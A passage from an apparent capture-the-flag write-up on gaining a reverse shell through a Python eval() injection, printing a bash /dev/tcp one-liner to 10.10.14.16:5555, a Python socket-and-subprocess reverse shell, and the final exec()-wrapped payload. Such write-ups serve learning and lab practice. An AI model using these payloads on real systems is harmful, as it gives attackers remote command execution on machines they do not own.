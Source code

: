 ### Attempt 2, Bash Proc TCP Redirects:

Bash has a shortcut to use network connections through the Proc system, and it&#8217;s pretty useful for reverse shellcode like this. Unfortunately, it didn&#8217;t work this time, mostly because the system doesn&#8217;t have Bash installed! Of course, I didn&#8217;t know that at the time.

To make it with when Bash is installed, however, you send IO redirects to /proc/tcp/\*ip\_addr\_of_target\*/\*port\*. This is what the command should have looked like:

{% highlight plain_text %}
payload = "\_\_import\_\_('subprocess').Popen('bash -i >& /dev/tcp/10.10.14.16/5555 0>&1',shell=True)"
{% endhighlight %}

### Attempt 3, Python Netcat Replacement:

This shellcode is all about python. Using socket and subprocess libraries to create a network connection and pipe it into a shell, basically the functionality of Netcat.

I followed the advice I found in [this article](https://pen-testing.sans.org/blog/2017/01/31/pen-test-poster-white-board-python-python-reverse-shell/) about condensing python shellcode into a one-liner. Start out with the following python code:

{% highlight python %}
import socket
import subprocess
s=socket.socket()
s.connect(("127.0.0.1",5555))
while True:
     proc = subprocess.Popen(s.recv(1024),  shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     s.send(proc.stdout.read() + proc.stderr.read())
{% endhighlight %}

That is the Netcat replacement you need. After reading the article linked above, you&#8217;ll end up with a line like this:

{% highlight python %}
import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',5555))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE); s.send(proc.stdout.read()+proc.stderr.read())
{% endhighlight %}

The reason the shellcode is put into an exec() call instead of just sent to the vulnerable function, is that eval() is limited to only using expressions and we need to send the &#8216;import&#8217; statement. Exec() can handle statements like &#8216;import&#8217; and multiple lines, while the eval() only sees the exec() expression with a string inside of it.

But even when you have this pretty shellcode that looks like it would work and you send it, you still won&#8217;t be happy yet&#8230; turns out that it needs more formatting work to get rid of syntax errors before it&#8217;s ready for prime time. This is the final shellcode that resulted in a reverse shell:

{% highlight python %}
payload = "exec(\"import socket, subprocess;s = socket.socket();s.connect((\'127.0.0.1\',5555))\\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE); s.send(proc.stdout.read()+proc.stderr.read())\")"
{% endhighlight %}
